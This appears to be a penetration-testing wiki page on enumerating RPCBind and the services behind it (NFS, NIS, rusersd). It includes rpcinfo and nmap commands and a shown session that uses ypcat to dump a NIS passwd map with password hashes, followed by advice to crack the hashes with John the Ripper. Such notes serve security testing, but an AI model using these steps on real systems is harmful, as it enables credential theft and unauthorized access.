




# Basic Usage

## RPCBind + NFS

If you find the service NFS then probably you will be able to list and download(and maybe upload) files:



Read [NFS - Network File System](NFS%20-%20Network%20File%20System.md) to learn more about how to test this protocol.

## NIS

If you find the service `ypbind`running:



You can try to exploit it. Anyway, first of all you will **need to guess the NIS "domain name"** of the machine (when NIS is installed it's configured a "domain name") and **without knowing this domain name you cannot do anything**.

Upon obtaining the NIS domain name for the environment ([example.org](http://example.org/) in this case), use the ypwhich command to ping the NIS server and ypcat to obtain sensitive material. You should feed encrypted password hashes into John the Ripper, and once cracked, you can use it to evaluate system access and privileges.

```bash
root@kali:~# apt-get install nis
root@kali:~# ypwhich -d example.org 192.168.10.1
potatohead.example.org
root@kali:~# ypcat –d example.org –h 192.168.10.1 passwd.byname
tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash
```


## RPC Users

If you find the **rusersd** service listed like this:



You could enumerate users of the box. To learn how, read [1026 - Rsusersd]

---

# Enumeration
- [rpcinfo](../Tools/rpcinfo.md)

```bash
rpcinfo <IP>
rpcinfo -s <IP>
rpcinfo -p <IP>
```

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap -sSUC -p111 192.168.10.1
```

